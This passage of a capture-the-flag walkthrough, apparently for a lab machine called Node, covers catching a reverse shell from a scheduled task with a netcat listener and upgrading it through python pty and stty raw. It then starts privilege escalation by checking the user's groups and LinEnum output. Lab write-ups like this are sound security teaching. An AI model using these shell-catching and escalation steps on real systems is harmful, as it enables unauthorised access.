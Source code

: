 Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Wait for the scheduled task to run.

![](../images/max/976/1*pn6ccKnFendlQLV4amy6rw.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user.txt flag.

![](../images/max/614/1*c2OPDps8LPRrtQz22yUGFg.png)

To grab the root.txt flag, we need to escalate our privileges to root.

## Privilege Escalation <a id="d22d"></a>

First, print the real and effective user and group IDs of the user.

```text
tom@node:/tmp$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
```

Second, review the LinEnum script for any info/files that are either associated to Tom’s id or groups that he is in.
